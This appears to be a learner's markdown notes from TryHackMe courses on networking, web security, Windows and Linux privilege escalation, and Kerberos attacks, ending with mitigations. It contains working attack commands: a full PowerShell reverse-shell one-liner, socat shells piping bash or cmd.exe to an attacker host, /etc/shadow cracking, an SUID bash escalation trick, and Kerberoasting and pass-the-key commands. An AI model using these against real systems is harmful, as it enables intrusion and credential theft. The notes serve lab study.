

# TryHackMe

## Neworking Fundamentals

### Introductory Networking

OSI ⬇️
* 7 Application
* 6 Presentation
* 5 Session
* 4 Transport(TCP - segments and UDP - datagrams)
* 3 Network(IP - packets)
* 2 Data Link(MAC - frames)
* 1 Physical

TCP/IP Model
* Application
* Transport
* Internet
* Network Interface

## Network Services

**Enumeration** – is the process of gathering information on a target in order to find potential attack vectors and aid in exploitation.
Enumeration gathers resources, usernames and similar stuff.

### SMB

Service Message Block protocol. First version came as of 1984. CIFS is a dialect of SMB. Currently(2021), the last major version is 3 and shipped with Windows 10.

Samba also a dialect of SMB, developed specifically fo Unix systems.

Enum4linux helps to enumrate SMB resources on both Windows and Linux.

### Telnet

Search for CVE's(Common Vulnerabilities and Exposures) at
* https://www.cvedetails.com/
* https://cve.mitre.org/
* https://nvd.nist.gov/vuln/search


> If you encounter a binary, inspect its printable strings with `strings` command.

`hydra` – password cracking for certain protocols.
`msfvenom` – tool to generate payloads to get remote shells


### DNS(Domain Name System)

Your laptop -> Recursive server(your provider) -> Root server -> Authoritative server

### Resources
* Vulnhub
* HackTheBox
* Virtual Hacking Labs – give certificates if you hack enough machines!


### NFS aka Network File System

Display available shares
`showmount -e <ip>`

Mounting
`sudo mount -t nfs IP:share /tmp/mount/ -nolock`
`-nolock` Specifies not to use NLM locking

### SMTP aka Simple Mail Transfer protocol


## Tools

### Metasploit

Init `msfdb init`
Start console `msfconsole`
Write output and screen state to file `spool`
Write entered commands `makerc`

Interesing modules:
* Post - post-exploitation
* Auxiliary - enumeration and scanning
* Encoder - obfuscation
* NOP - overflow and ROP(return-oriented programming) attacks

### SecLists

https://github.com/danielmiessler/SecLists/

Gives lists of intersting strings to accompany enumeration or hacking.

### Burp Suite

Burp is a framework for penetration testing of a web applications.

* Proxy - What allows us to funnel traffic through Burp Suite for further analysis
* Target - How we set the scope of our project. We can also use this to effectively create a site map of the application we are testing.
* Intruder - Incredibly powerful tool for everything from field fuzzing to credential stuffing and more
* Repeater - Allows us to 'repeat' requests that have previously been made with or without modification. Often used in a precursor step to fuzzing with the aforementioned Intruder
* Sequencer - Analyzes the 'randomness' present in parts of the web app which are intended to be unpredictable. This is commonly used for testing session cookies
* Decoder - As the name suggests, Decoder is a tool that allows us to perform various transforms on pieces of data. These transforms vary from decoding/encoding to various bases or URL encoding.
* Comparer - Comparer as you might have guessed is a tool we can use to compare different responses or other pieces of data such as site maps or proxy histories (awesome for access control issue testing). This is very similar to the Linux tool diff.
* Extender - Similar to adding mods to a game like Minecraft, Extender allows us to add components such as tool integrations, additional scan definitions, and more!
* Scanner - Automated web vulnerability scanner that can highlight areas of the application for further manual investigation or possible exploitation with another section of Burp. This feature, while not in the community edition of Burp Suite, is still a key facet of performing a web application test.

**Happy Path** - using web app as a normal user to find possible exploitation vectors.

### Weird Projects

[FuzzDB](https://github.com/fuzzdb-project/fuzzdb) – fuzzing strings for every occasion
[SecLists](https://github.com/danielmiessler/SecLists) - security tester companion - lists of security related strings like password, user names etc.
[CyberChef](https://gchq.github.io/CyberChef/) – mangle with weird cryptic stringds, decode them, transcode to another format.
[Retire.js](https://retirejs.github.io/retire.js/) – check for old JS libs and list vulnerabilities in them.
[Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings) – A list of useful payloads and bypass for Web Application Security and Pentest/CTF.
[CrackStation](https://crackstation.net/) – breach simple hashes.
[XSS Paylods](http://www.xss-payloads.com) – HTTP only site to make you scared!


## OWASP Top 10

- Injection
	- Blind(no output)
	- Active
- Broken Authentication
- Sensitive Data Exposure
- XML External Entity
	- In-band(immediate output)
	- Out-of-band(aka blind)
	You can use references in XML, like &ref; and you can specify in schema that reference points to some file. Voiíla, and you have a /etc/passwd.
- Broken Access Control
	- Subtype - IDOR(Insecure Direct Object Reference). Imagine site has page like https://example.com/bank?account_number=1234 and you can choose whatever account number you want. That's IDOR.
- Security Misconfiguration
- Cross-site Scripting
	- Stored - the one that lives in the database
	- Reflected – the one that is caused by a user's request, though might not preserved across reloads.
	- DOM-Based. If an app allows DOM manipultion, it might result in having XSS.
- Insecure Deserialization
- Components with Known Vulnerabilities
- Insufficent Logging & Monitoring

## File Upload Testing Strategy by MuirlandOracle

* The first thing we would do is take a look at the website as a whole. Using browser extensions such as the aforementioned Wappalyzer (or by hand) we would look for indicators of what languages and frameworks the web application might have been built with. Be aware that Wappalyzer is not always 100% accurate. A good start to enumerating this manually would be by making a request to the website and intercepting the response with Burpsuite. Headers such as server or x-powered-by can be used to gain information about the server. We would also be looking for vectors of attack, like, for example, an upload page.
* Having found an upload page, we would then aim to inspect it further. Looking at the source code for client-side scripts to determine if there are any client-side filters to bypass would be a good thing to start with, as this is completely in our control.
* We would then attempt a completely innocent file upload. From here we would look to see how our file is accessed. In other words, can we access it directly in an uploads folder? Is it embedded in a page somewhere? What's the naming scheme of the website? This is where tools such as Gobuster might come in if the location is not immediately obvious. This step is extremely important as it not only improves our knowledge of the virtual landscape we're attacking, it also gives us a baseline "accepted" file which we can base further testing on.
    * An important Gobuster switch here is the -x switch, which can be used to look for files with specific extensions. For example, if you added -x php,txt,html to your Gobuster command, the tool would append .php, .txt, and .html to each word in the selected wordlist, one at a time. This can be very useful if you've managed to upload a payload and the server is changing the name of uploaded files.
    * gobuster example: `gobuster dir -u http://10.10.180.117/ -w /usr/share/dirb/wordlists/common.txt -x php,html`
* Having ascertained how and where our uploaded files can be accessed, we would then attempt a malicious file upload, bypassing any client-side filters we found in step two. We would expect our upload to be stopped by a server side filter, but the error message that it gives us can be extremely useful in determining our next steps.

Assuming that our malicious file upload has been stopped by the server, here are some ways to ascertain what kind of server-side filter may be in place:

* If you can successfully upload a file with a totally invalid file extension (e.g. testingimage.invalidfileextension) then the chances are that the server is using an extension blacklist to filter out executable files. If this upload fails then any extension filter will be operating on a whitelist.
* Try re-uploading your originally accepted innocent file, but this time change the magic number of the file to be something that you would expect to be filtered. If the upload fails then you know that the server is using a magic number based filter.
* As with the previous point, try to upload your innocent file, but intercept the request with Burpsuite and change the MIME type of the upload to something that you would expect to be filtered. If the upload fails then you know that the server is filtering based on MIME types.
* Enumerating file length filters is a case of uploading a small file, then uploading progressively bigger files until you hit the filter. At that point you'll know what the acceptable limit is. If you're very lucky then the error message of original upload may outright tell you what the size limit is. Be aware that a small file length limit may prevent you from uploading the reverse shell we've been using so far.

## Crypto 

There is known way to have SHA1 and MD5 collisions.

Recipe how to crack shadow Linux files. First, unshadow them with `unshadow /etc/passwd /etc/shadow|grep root > unshadow.txt`. Then, crack with `john --wordlist=rockyou.txt --format=crypt unshadow.txt`. Note! If forked, john does not stop oter workers when password found.

# Windows

## Permission System

Permissions are set for folders and files. You can arrange them for users or groups. Here is the list:

- **Full Control** allows you to read, write, modify, and execute files in the folder, change attributes, permissions, and take ownership of the folder or files within.
- **Modify** allows you to read, write, modify, and execute files in the folder, and change attributes of the folder or files within.
- **Read & Execute** will allow you to display the folder’s contents and display the data, attributes, owner, and permissions for files within the folder, and run files within the folder.
- **List Folder Contents** will allow you to display the folder’s contents and display the data, attributes, owner, and permissions for files within the folder.
- **Read** will allow you to display the file’s data, attributes, owner, and permissions.
- **Write** will allow you to write data to the file, append to the file, and read or change its attributes.

The reason we do not set the full control permission on the folder is that users could set permissions and take ownership of the folder themselves (without the action of an administrator/privileged user).

A tool you can use to check the files or folder permissions is "icacls".

## Active Directory

### Terminology

- **Trees** - A hierarchy of domains in Active Directory Domain Services
- **Domains** - Used to group and manage objects 
- **Organizational Units (OUs)** - Containers for groups, computers, users, printers and other OUs
- **Trusts** - Allows users to access resources in other domains
- **Objects** - users, groups, printers, computers, shares
- **Domain Services** - DNS Server, LLMNR, IPv6
- **Domain Schema** - Rules for object creation

### Groups Explained

- Security Groups - These groups are used to specify permissions for a large number of users
- Distribution Groups - These groups are used to specify email distribution lists. As an attacker these groups are less beneficial to us but can still be beneficial in enumeration

### Domain Trusts

- **Directional** - The direction of the trust flows from a trusting domain to a trusted domain
- **Transitive** - The trust relationship expands beyond just two domains to include other trusted domains

Domain Policies – like domain groups, except instead of permissions they contain rules, and instead of only applying to a group of users, the policies apply to a domain as a whole.

## PowerShell Stuff

Commands organized in two-words scheme Verb-Noun, see examples below.

Useful commands:
* Get-Command. Usefull for looking up commands, like `Get-Command -Name *transcript` will return all commands associated with the noun of transript.
* Get-Help
* Get-Alias
* Get-Member – gets member of an object. Commands return objects, and you can inspect their members, and even call some of them.
* Get-History
* Start-Transcript - starts recording current terminal(?) session into a file.

Illustrative script of more advanced usage:

```powershell
Get-PSDrive | ?{$_.Free -gt 1} | %{$Count = 0; Write-Host "";} { $_.Name + ": Used: " + "{0:N2}" -f ($_.Used/1gb) + " Free: " + "{0:N2}" -f ($_.free/1gb) + " Total: " + "{0:N2}" -f (($_.Used/1gb)+($_.Free/1gb)); $Count = $Count + $_.Free;}{Write-Host"";Write-Host "Total Free Space " ("{0:N2}" -f ($Count/1gb)) -backgroundcolor magenta}
```

`?` is an alias, by checking `Get-Alias ?` you can find it points to `Where-Object`.
`$_` points to the currently piped object.
`{0:N2} -f Value` is a pretty-printing for variable.

Windows Post-Exploitation can be done with tools like PowerSploit. Interestingly, it is not supported anymore, but everybody recomends it.

### Eternal Blue Example Room

Steps for breaching the machine.

- Scan with nmap, enable scanning for known vulnerabilities `sudo nmap -vv --script vuln -sV host`
- Open msfconsole, search for exploitations of found vulnerabilities `search ms17_010`
- Optionally, set a payload for the target machine `set payload windows/x64/shell/reverse_tcp`
- Upgrade to a meterpreter session `sessions -u session_id`
- Migrate to a new process with `NT AUTHORITY\SYSTEM` user(if needed). Combine `getpid`, `ps` and `migrate new_pid` for that.
- Dump passwords with `hashdump`.

# Shell Stabilisation

- Reverse shell - target connects to attacker
- Bind shell - attacker connects to target

**Stabilisation Examples**

- `rlwrap nc -lvnp <port>` - no Ctrl+C, but gives history, tab completion and arrow keys.
- socat. socat seldom installed and you might want a compiled binary for the target. Does not make sense on Windows.
	- Simple Listener: `socat TCP-L:<port> FILE:`tty`,raw,echo=0`. Does not need socat to be installed on target system.
	- Upgrade regular shell by executing: `socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane`.
		- pty, allocates a pseudoterminal on the target -- part of the stabilisation process
	    - stderr, makes sure that any error messages get shown in the shell (often a problem with non-interactive shells)
	    - sigint, passes any Ctrl + C commands through into the sub-process, allowing us to kill commands inside the shell
	    - setsid, creates the process in a new session sane, stabilises the terminal, attempting to "normalise" it.
- python shell
```bash
	# In reverse shell
	$ python -c 'import pty; pty.spawn("/bin/bash")'
	Ctrl-Z

	# On host
	$ stty raw -echo
	$ fg

	# In reverse shell
	$ reset
	$ export SHELL=bash
	$ export TERM=xterm-256color # or export TERM=xterm if previous does not work
	$ stty rows <num> columns <cols>
```

### Socat Encrypted Shells

- `openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt` generate self-signed certificate
- `cat shell.key shell.crt > shell.pem` merge created files into one
- `socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -` open reverse shell
- `socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash` connect from target host

---
For the bind shell use:
- `socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes` target code
- `socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -` attacker

### PowerShell Reverse Shell

```
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

### MSFVenom

* Staged payloads sent in two parts. The first part is called *stager*, it does not create a reverse shell, but dowloads a bigger payoad which will create one. Staged payloads tend to avoid being detected by antiviruses.
* Stageless payloads a regular bulky payloads that create reverse shell in one stage.

MSFVenom has both staged and stageless payloads, the indication is in the naming.
- `windows/shell_reverse_tcp` - stageless
- `windows/shell/reverse_tcp` - staged(note `/` instead of `_` in the name)

# Linux Privelege Escalation

- Enumerate everything when you get a shell, for example, using LinEnum.sh/linpeas/linux-smart-enumeration script
- Search for SGID/SUID files
	- `find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null`
	- apps with those bits can have exploits
	- they can access some files in writable locations, use `strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"`
	- can be PATH abused
	- shell features can be abused, like creating functions with path of the executable or using debug bash mode to run a custom program `env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2`. This is true for old bash versions, <=4.2, 4.4
- Check if `/etc/passwd` is writeable(or any other sensitive file)
- Check sudo privileged programs with `sudo -l`
- Check crontab
- PATH abuse
	- Imagine, some program with SUID/GUID bit executes another program, but does not use absolute path in the reference and relies on PATH system variable to find target executable
	- So, we can spoof PATH and prepend it with directory that contains an executable with the same name. Due to precedence, privileged executable will run a hand-crafted target, so attacker might elevate privilege
	- Also, we can spoof LD_PRELOAD so some app will call our shared library
- search history files `cat ~/.*history | less`
- search ssh keys
- wildcard injection
- search config files
- if you can read or write shadow/passwd file, this is exploitable
- Tools that help:
	- https://gtfobins.github.io/
	- linux-exploit-suggester
- Learn more! Some resources
    - https://github.com/netbiosX/Checklists/blob/master/Linux-Privilege-Escalation.md
    - https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md
    - https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_-_linux.html
    - https://payatu.com/guide-linux-privilege-escalation

# Packet Analysis

### PCAP collection

Methods:
- network tapping(special sniffer device)
- MAC floods(overflooded switch will start sending packets to all connected devices)
- ARP poisoning
- port mirroring

## Active Directory

- Ticket Granting Ticket (TGT) - A ticket-granting ticket is an authentication ticket used to request service tickets from the TGS for specific resources from the domain.
- Key Distribution Center (KDC) - The Key Distribution Center is a service for issuing TGTs and service tickets that consist of the Authentication Service and the Ticket Granting Service.
- Authentication Service (AS) - The Authentication Service issues TGTs to be used by the TGS in the domain to request access to other machines and service tickets.
- Ticket Granting Service (TGS) - The Ticket Granting Service takes the TGT and returns a ticket to a machine on the domain.
- Service Principal Name (SPN) - A Service Principal Name is an identifier given to a service instance to associate a service instance with a domain service account. Windows requires that services have a domain service account which is why a service needs an SPN set.
- KDC Long Term Secret Key (KDC LT Key) - The KDC key is based on the KRBTGT service account. It is used to encrypt the TGT and sign the PAC.
- Client Long Term Secret Key (Client LT Key) - The client key is based on the computer or service account. It is used to check the encrypted timestamp and encrypt the session key.
- Service Long Term Secret Key (Service LT Key) - The service key is based on the service account. It is used to encrypt the service portion of the service ticket and sign the PAC.
- Session Key - Issued by the KDC when a TGT is issued. The user will provide the session key to the KDC along with the TGT when requesting a service ticket.
- Privilege Attribute Certificate (PAC) - The PAC holds all of the user's relevant information, it is sent along with the TGT to the KDC to be signed by the Target LT Key and the KDC LT Key in order to validate the user.



### Attack Vectors
https://www.tarlogic.com/en/blog/how-to-attack-kerberos/
https://www.tarlogic.com/en/blog/how-kerberos-works/

- Kerberos Bruteforce	
    - No domain account is needed to conduct the attack, just connectivity to the KDC.
    - Kerberos pre-authentication errors are not logged in Active Directory with a normal Logon failure event (4625), but rather with specific logs to Kerberos pre-authentication failure (4771).
    - Kerberos indicates, even if the password is wrong, whether the username is correct or not. This is a huge advantage in case of performing this sort of technique without knowing any username.
    - In Kerberos brute-forcing it is also possible to discover user accounts without pre-authentication required, which can be useful to perform an ASREPRoast attack.
    - Commands: `kerbrute.py -domain <domain_name> -users <users_file> -passwords <passwords_file> -outputfile <output_file>`(Linux), `Rubeus.exe brute /users:<users_file> /passwords:<passwords_file> /domain:<domain_name> /outfile:<output_file>`(Windows)
- Kerbrute Enumeration - No domain access required. Possible to identify which users do exist on the domain(machine?).
- Ticket harvesting - access as a user required. Possible to harvest a TGT. Can be done with rubeus or impacket. 
- Password spraying - access as a user to the domain required. Possible to identify user who uses a certain password. Brute-forcing is possible too.
- OverPass the Has/Pass the Key
	- This attack aims to use user NTLM hash to request Kerberos tickets, as an alternative to the common Pass The Hash over NTLM protocol. Therefore, this could be especially useful in networks where NTLM protocol is disabled and only Kerberos is allowed as authentication protocol.
	- In order to perform this attack, the NTLM hash (or password) of the target user account is needed. Thus, once a user hash is obtained, a TGT can be requested for that account. Finally, it is possible to access any service or machine where the user account has permissions.
	- Linux flow:
		- Use hash to get TGT `python getTGT.py jurassic.park/velociraptor -hashes :2a3de7fe356ee524cc9f3d579f2e0aa7`
		- `export KRB5CCNAME=/root/impacket-examples/velociraptor.ccache`
		- `python psexec.py jurassic.park/velociraptor@labwws02.jurassic.park -k -no-pass`, or `evil-winrm -H ...`
	- Windows flow:
		- `.\Rubeus.exe asktgt /domain:jurassic.park /user:velociraptor /rc4:2a3de7fe356ee524cc9f3d579f2e0aa7 /ptt`
		- `.\PsExec.exe -accepteula \\labwws02.jurassic.park cmd`
- Pass the ticket
	- This kind of attack is similar to Pass the Key, but instead of using hashes to request for a ticket, the ticket itself is stolen and used to authenticate as its owner. The way of recolecting these tickets changes from Linux to Windows machines, therefore each process will be introduced in its own section.
	- Use mimikatz or Rubeus to dump the ticket, then psexec to pass it to the target. 
- Kerberoasting - Access as any user required. Allows a user to get a service ticket for any service with a registered SPN. That ticket allows to crack the service password. Example command: `impacket-GetUserSPNs CONTROLLER.local/Machine1:Password1 -dc-ip 10.10.235.186 -request `. Rubeus: `Rubeus.exe kerberoast /outfile:hashes.kerberoast`.
	- The goal of Kerberoasting is to harvest TGS tickets for services that run on behalf of user accounts in the AD, not computer accounts. Thus, part of these TGS tickets is encrypted with keys derived from user passwords. As a consequence, their credentials could be cracked offline.
	- Therefore, to perform Kerberoasting, only a domain account that can request for TGSs is necessary, which is anyone since no special privileges are required.
- AS-REP Roasting - Access as any user required. Rubeus can do that `Rubeus.exe asreproast /format:hashcat /outfile:hashes.asreproast`, or use impacket-GetNPUsers, example: `impacket-GetNPUsers spookysec.local/svc-admin -request -no-pass   -dc-ip 10.10.54.141`
	- The ASREPRoast attack looks for users without Kerberos pre-authentication required. That means that anyone can send an AS_REQ request to the KDC on behalf of any of those users, and receive an AS_REP message. This last kind of message contains a chunk of data encrypted with the original user key, derived from its password. Then, by using this message, the user password could be cracked offline.
	- No domain account is needed to perform this attack, only connection to the KDC. However, with a domain account, an LDAP query can be used to retrieve users without Kerberos pre-authentication in the domain. Otherwise usernames have to be guessed.
- Golden Ticket - Full domain compromise (domain admin) required. Example: `impacket-secretsdump account:password@10.10.16.51`
- Silver Ticket - Service hash required.
	- Impacket: `impacket-ticketer`.
	- Mimikatz
- Skeleton Key - Full domain compromise (domain admin) required

### Mitigation

- Enable an strong password policy
- Avoid accounts without pre-authentication
- Avoid executing services in behalf of account accounts.  Avoid services that run in domain user account context. In case of using an special user account for launch domain services, generate an strong pseudo-random password for that account.
- Verify PAC(Privileged Attribute Certificate): Enable PAC verification in order to avoid attacks such as Silver Ticket.
- Change passwords periodically. `krbtgt` password must be modified twice to invalidate current domain tickets, for cache reasons.
- Disable Kerberos weak encryption types.
### Wisdom
Readable IPC$ means that you can enumerate users via `impacket-lookupsid`.